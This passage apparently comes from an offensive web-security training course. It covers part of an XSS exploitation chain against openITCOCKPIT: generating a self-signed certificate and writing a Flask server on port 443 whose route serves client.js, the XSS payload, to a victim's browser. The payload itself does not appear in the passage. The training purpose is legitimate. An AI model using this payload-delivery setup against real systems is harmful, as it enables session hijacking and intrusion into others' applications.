Normally, we would use a properly-issued certificate and purchase a domain to host the API server, but for the purposes of this module, a self-signed certificate will suffice. A key and certificate can be generated using the openssl command.

```
kali@kali:~/scripts$ openssl req -x509 -newkey rsa:4096 -nodes -out cert.pem -keyout key.pem -days 365
Generating a RSA private key
...................................................................................................++++
.............................++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:kali
Email Address []:
```

> Listing 27 - Generating Key and Certificate

With the certificate and key generated, we will load them into the API application and specify the host and port to run on.

```
app.run(host='0.0.0.0', port=443, ssl_context=('cert.pem', 'key.pem'))
```

> Listing 28 - Starting the Flask app

We'll enter the code in Listing 28 below the configuration of the _app_ and _database_ variables. This line will always be the last line of this script.

Now that the Flask server is set to run, we need to create some endpoints. The first endpoint will respond with the contents of client.js (the XSS payload) to allow the XSS to load our payload.

We'll use a Python _decorator_[3](https://portal.offsec.com/courses/web-300-687/learning/openitcockpit-xss-and-os-command-injection-blackbox-10585/wrapping-up-10652/wrapping-up-10712#fn-local_id_354-3) to set the route. Specifically, we'll set the name of the route and the method that will be allowed (GET). We will send the client.js file with Flask's _send_file_ function.

The code for this is shown in Listing 29 and will be entered after the configuration of the _app_ and _database_ variables but before _app.run_ is called:

```
@app.route('/client.js', methods=['GET'])
def clientjs():
    print("[+] Sending Payload")
    return send_file('./client.js', attachment_filename='client.js')
```
